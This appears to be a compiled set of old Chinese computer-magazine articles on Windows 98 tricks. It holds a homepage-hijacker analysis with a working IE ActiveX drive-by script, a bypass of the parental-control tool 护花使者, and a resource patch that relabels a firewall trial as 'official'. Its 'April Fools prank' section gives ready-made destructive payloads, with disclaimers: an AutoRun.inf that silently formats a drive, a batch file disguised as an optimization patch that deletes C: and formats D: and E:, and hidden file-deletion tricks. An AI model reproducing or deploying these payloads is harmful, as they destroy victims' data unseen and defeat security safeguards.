



但电脑每次启动不是仍然都自动运行 IE 吗？请别着急。用 regedit 打开子键：

`[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run]`

`[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]`

删除其中名为 explorer 的项（如图 2）。但即使这样做，重新启动后默认主页还是被篡改了。一定还有什么没清除干净。运行 msconfig，打开“启动”一栏，如图 3 所示。

果然，还有个很陌生的 DLL 文件被运行了。在注册表中删掉它（子键的位置与项 explorer 相同），重启，一切解决。但回头一想，DLL 文件怎么会用 regedit 来运行？啊，问题出来了！查找看到的那个 DLL 文件，将其后缀改为 txt，打开，发现内容如下：（经过精简，并将自己的分析一并列出）：

```reg
REGEDIT4

// 表示注释
[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel]
"HomePage"=dword:00000001
```

```reg
// HomePage 的值为非零时的情况（图 4）

"SecChangeSettings"=dword:00000001
// SecChangeSettings 的值为非零时的情况（图 5）

// 子键前加减号，表示删除此子键
[-HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run]
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run]
// @ 表示将等号后面的值设为默认值（图 6）

// regedit 的参数 -s 表示不显示注册的提示信息（如果不加会显示如图 7 的提示信息）
@="regedit -s c:\\windows\\system\\033zxdows.dll"

[HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main]
"Start Page"="http://www.xxx.com"
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]
"033zxdows"="regedit -s c:\\windows\\system\\033zxdows.dll"
"win"=-
// -= 表示删除键值 win
"iexplorer"="http://www.xxx.com/"
// 开机时启动 IE 浏览网页 www.xxx.com
rcx // 立即更新注册表
// -------- 文件结束 --------
```









但网页是如何将文件写入我的硬盘的呢？经笔者分析后，发现其基本原理如下（图 8）。

现在，我们就来模拟这个网页。打开记事本，输入以下代码：

```html
<APPLET HEIGHT=0 WIDTH=0 code=com.ms.activeX.ActiveXComponent.class></APPLET>
<script>
function System() {
    a=document.applets[0];
    a.setCLSID('{F935DC22-1CF0-11D0-ADB9-00C04FD58A0B}');
    a.createInstance();
    Shl=a.GetObject();
    a.setCLSID('{0D43FE01-F093-11CF-8940-00A0C9054228}');
    a.createInstance();
    fso=a.GetObject();
```



```javascript
var file1=fso.CreateTextFile('c:\\hack.vbs', true);
file1.writeLine('MsgBox("hello")');
file1.Close();
Shl.Run('c:\\hack.vbs');
}
setTimeout('System()',100);
</script>
```

```javascript
a.setCLSID('{0D43FE01-F093-11CF-8940-00A0C9054228}');
a.createInstance();
fso=a.GetObject();
// 分别取得在本地机运行程序与访问硬盘的权力
var file1=fso.CreateTextFile('c:\\hack.vbs', true);
file1.writeLine('MsgBox("hello")');
file1.Close();
// 在 C 盘创建文件 hack.vbs，内容为 MsgBox("hello")
Shl.Run('c:\\hack.vbs');
// 运行 hack.vbs
以上的所有都是函数 System() 的内容，所以最后需要调用这个函数。使用语句
setTimeout('System()',100);
// 100 毫秒后调用函数 System()
```

将文件保存为 HTML 文件，运行。如何？是否出现了一个内容为 hello 的对话框？再看看你的 C 盘，呵呵，有 hack.vbs 这个文件吧，这就是刚刚创建的。

好，让我们来看看这个文件是如何工作的。

```html
<APPLET HEIGHT=0 WIDTH=0 code=com.ms.activeX.ActiveXComponent.class></APPLET>
// 这一句非常重要，简单说，就是打开了与本地机沟通的渠道
// 宽（HEIGHT）和高（WIDTH）都被设为 0，所以浏览时看不到任何东西
a.setCLSID('{F935DC22-1CF0-11D0-ADB9-00C04FD58A0B}');
a.createInstance();
Shl=a.GetObject();
```

vbs 文件是 VBScript 的脚本，运行时 Windows 会自动调用其编译器，而不发出任何警告。至于如何用 VBScript 脚本修改注册表，许多文章都提过，笔者这里就不再赘述。

这篇文章主要想让大家了解网页垃圾的基本工作原理，从而可以将其清除。现在你应该能轻松扫除一些网页垃圾了吧？

### 护花使者的一个小漏洞

文／文萱

护花使者是一个反黄、安全软件，具有：实时拦截、文件保护、限制任意程序的运行、文字消毒、图像审查等功能。安装护花使者后，主文件保存在 C:\Windows 下，名字为 iflower.exe。

运行护花使者软件，在有“文件防删”选项保护的情况下，在资源管理器中删除了部分 Windows 下的重要文件（当然事先有所防范了），系统提示已经删除，但选择“查看”菜单下的“刷新”功能，会发现文件根本没有被删除；再删除桌面上快捷方式试试，也是如此。我们再来进入 Windows 的 DOS 方式，用 del 文件名（del 1.txt）命令来删除文件，此时会显示文件被删除掉了，过后再查看发现文件依旧存在，看来护花使者的保护功能很有效，发挥出了应有的作用。

可是有一次，无意中在 Windows 的 DOS 方式下，用 Deltree 命令删除了一个文件，当时护花使者还在运行中，过后查看文件竟然真的被删除了，换句话说，护花使者没有发挥作用，它的防线被突破了！于是连忙到 DOS 实模式下再试试，仍然用 Deltree 命令删除文件，发现问题依旧，护花使者不能保护文件不被删除！

让我们更进一步，如果我们在 DOS 下输入下面的命令：`deltree /y C:\iflower.exe`，重新启动计算机，进入 Windows 后你会发现护花使者不再开机即启动。如果你再到注册表 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run` 键下，删除“netguard”子键。再运行护花使者，你会发现原先的密码已经为空。天！连密码保护都没有了。这样，护花使者精心打造的所有的防线和功能都将被突破！可以随意运行你想使用的软件，任意浏览各类网页，删除各类文件都无限制……

作为安全软件，护花使者出现这样的问题实在是不应该，希望使用该软件的家长们能注意到这个漏洞，小心被孩子们钻空子了哦。

愚人节是朋友们互相开玩笑的洋节，但是玩笑要适可而止，不然，好朋友可没得做了。本文是一些常见的电脑应用技巧，目的是希望大家能够充分消化，加强记忆，可不要真的去找朋友开刀……



### 愚人节本地电脑

#### 整蛊小技巧八则

文／cainiao

愚人节就快到了，想和朋友开个玩笑？用专门的恶作剧软件未免有些太麻烦了，而且现在的那帮家伙个个比猴还精，想让他们上当可不容易，没准反倒被他（她）给黑了。其实，只需利用 Windows 的某些特点就可以了，简单易行，效果也还不错。以下是几个本地电脑整蛊小技巧，作为技术交流供大家参考。

#### 1．让对方无法进入 Windows

Windows 98 每次启动时都要装载 Explorer.exe。Explorer.exe 文件是 Windows 的外壳程序，在 Windows 启动的时候要加载它。Explorer.exe 原本在 Windows 目录中，系统启动时首先要在根目录中加载此文件，如果没有，再到 Windows 目录中去查找，我要做的就是用一个程序来代替 Explorer.exe。

先在 Windows 目录中找到磁盘扫描程序 Scandisk.exe，把它 COPY 到 C 盘根目录下，重命名为 Explorer.exe。然后，在“开始”菜单中点击“运行”，输入 msconfig，找到 system.ini 标签，把 `shell=Explorer.exe` 改为 `shell=C:\Explorer.exe`。重新启动电脑，当 Windows 98 启动时会先加载根目录下的 Explorer.exe，系统会停止在此，因为只有个磁盘扫描程序，其他诸如注册表等程序尚未加载，所以如果按 Ctrl+Alt+Del 看不到任何内容，因此中招之后，就算重装系统或修改注册表以及 Win.ini 文件都没有用。

解决方法：机器重启后按 Shift+F5，进入 Command prompt only 方式，键入命令 `Edit system.ini` 编辑 system.ini 文件，把其中的 `shell=C:\Explorer.exe` 改为 `shell=Explorer.exe`，保存退出，然后删除 C 盘根目录下的 explorer.exe 文件，再重启机器就可以进入那熟悉的 Windows 桌面了。

#### 2．使特定文件夹无法进入

在系统所在硬盘的根目录下建立一个名为 config.sys 的文件，里面只要以下一行就可以：

```text
device=c:\windows\cdrom.sys /d:tool
```

其中 cdrom.sys 为光驱驱动程序。启动电脑后，硬盘中的任何名称为“tool”的文件、文件夹便不可用了。如果把“tool”改为 Windows 所在文件夹名，会提示您找不到系统文件！就算在 DOS 下用 `CD Windows` 命令（假设 Windows 安装在 `C:\Windows` 下），也无法进入该目录！系统会提示 Invalid directory，即非法目录，从而无法进入！

解决办法：只要用软盘启动系统，然后将 config.sys 文件删除就可以了。

接下来这几招过于毒辣，只作为技术交流，请勿使用。

#### 3．格式化对方硬盘

打开记事本，新建一个文件，将其改名为 AutoRun.inf，在 AutoRun.inf 中键入以下内容（“//”后面的内容是我加入的注释）：

```ini
[AutoRun]  // 一个标准的 AutoRun 文件必须以 [AutoRun] 开头，目的是告诉系统执行它下面几行的命令
Open=c:\windows\command\format.com /q /autotest /u c:  // 指出要运行的程序的路径和名称，在 c:\windows\command 下的格式化命令 format.com，用它来格式化对方的 E 盘。
```

保存 AutoRun.inf 文件到硬盘根目录下，按 F5 刷新桌面或等对方重新启动电脑，以后只要他双击进入有这个 AutoRun.inf 文件的硬盘，该盘就会被快速格式化！加上“/autotest”这个微软未公开的参数使得格式化硬盘时不会出现任何提示！format 的另外两个参数“/q”和“/u”代表不检测硬盘便快速、完全格式化。如果将“Open”行内容变换为 `Open=deltree /y c:\*.*`，则不给对方确认的机会就删除他的 C 盘下所有的文件（正在运行的除外）！

#### 4．利用批处理格式化对方硬盘

打开记事本输入以下内容：

```bat
@echo off
echo Wait for a moment,please......Loading now!
@start.exe /m delete /y c:\ >nul
@start.exe /m format D: /q /u /autotest >nul
@start.exe /m format E: /q /u /autotest >nul
@echo game over!
```

把以上文件存成任意名字的 .bat 文件，比方说“Windows 优化补丁.bat”。如果有人运行了，屏幕上会显示“Wait for a moment,please......Loading now!”，一般人会以为程序在执行，其实这是用来麻痹对方的，此时正在后台将对方 C 盘下的文件全部删除，并将 D 盘和 E 盘无声无息地格式化。最后显示“game over!”气气人。start.exe 文件再配合“/m”参数的目的是可以使格式化时的 DOS 窗口在执行的时候处于最小化的状态，更令对方难以察觉。

#### 5．利用快捷方式删除对方文件

新建一个桌面快捷方式，然后右击，在弹出菜单中选择“属性”，在“目标”栏中输入：`c:\windows\command\delete /y c:\*.*`，保存。以后，如果有人点击该快捷方式，则 C 盘根目录下的文件除了正在运行的以外，其余的就都被删除了！

防范方法：将系统中的危险文件如 format.com 等改名或删除，也可以将其“封杀”使之失效。在 DOS 下键入如下命令：`doskey format=Bad Command or file name!`，回车就可将 format 给“封杀”了，当病毒或恶意程序格式化您的硬盘时，系统将会显示：Bad command or file name! 如果你自己想要格式化硬盘该怎么办呢？在 DOS 下键入 `doskey FORMAT=` 就可以了（没有引号）。

#### 6．悄无声息地删除文件或文件夹

打开记事本，新建一个文件，输入如下内容：

```ini
[rename]
dirnul=C:\MP3
```

保存为 Wininit.ini 文件，存放在 C 盘 Windows 目录下。重新启动电脑后，C:\MP3 目录就被删除了，如果把 `dirnul=C:\MP3` 换为 `nul=C:\Windows\notepad.exe`，就会自动删除记事本程序！想想看，利用这个技巧还可以更“狠”些，这里就不介绍了。这个技巧利用了 Windows 的一个机制，Windows 在重启时，将在 Windows 目录下搜索 Wininit.ini 文件，如果找到，就遵照该文件指令删除、改名、更新文件，完成任务后，将删除 Wininit.ini 文件本身，继续启动过程。因此，Wininit.ini 文件中的指令只会被执行一次，执行完毕就消失了踪影，查都没法查。

最后再次声明一下，请不要用本文提到的方法搞恶意的破坏或轻易地在自己的电脑上做实验，除非你知道自己在做什么，部分技巧可能还具有破坏性，在此仅供技术上交流，否则一切后果自负！

天网防火墙以前都可以免费注册升级，但是随着防火墙的升级、用户的增多，目前很多无产阶级却只能使用试用版。但是看到“试用版”又感觉很不爽，那么就自己动手来把它改为一个“伪正式版”，自得其乐一下，还可以学习一门技术。



### 让你的天网防火墙成为“正式版”

文／柴芯花

最近下载了一款在国内非常流行的天网防火墙个人版[试用版2.49]（官方网站：http://www.skynet.cn），觉得非常不错。惟一的遗憾就是运行该软件后，在其界面上显示的是“试用版”，怎么看怎么别扭。经过一番琢磨，终于让我找到了办法，在此公布出来，与朋友们一起分享。

下载安装可执行文件资源修改软件 eXeScope。eXeScope 是个可以修改软件资源的工具，它能在没有资源文件的情况下分析、显示不同的信息，重写可执行文件的资源，包括 EXE、DLL、OCX 等文件的资源它都可以修改编辑。eXeScope 可以直接修改用 VC++ 及 Delphi 编制的程序的资源，包括菜单、对话框、字符串表等，我们可以用它来修改天网的主执行文件 PFW.exe，把其中的部分资源修改为我们想要的就可以了。

运行 eXeScope，选择“文件”菜单中“打开”，在“打开”对话框中找到天网防火墙个人版的主文件 PFW.exe，点击“打开”将其加入到 eXeScope 中，如图 1 所示。点击“资源”前面的“+”号，将其展开，你会看到如图 2 所示窗口。再点击“资源”下面的“字符串”，找到“626”，在右边的窗口中你可以看到该资源的内容，如图 3 所示。



其中的“10002,试用版”就是我们这次下刀的部位了。将光标定位到“10002,试用版”中“版”字前，将“试用”去掉，用“正式”二字代替。现在，请你将光标定位到其他资源上，会弹出窗口询问你是否保存修改结果，当然选择保存了。


好了，退出 eXeScope，再运行天网防火墙个人版试试，哈哈，它已经成为“正式版”了（图 4）！而且分文未花！但这可不同于天网提供的付费正式版，只是我修改出来的“表面现象”，满足一下鄙人的虚荣心而已，这也是我之所以要加上引号的原因了。

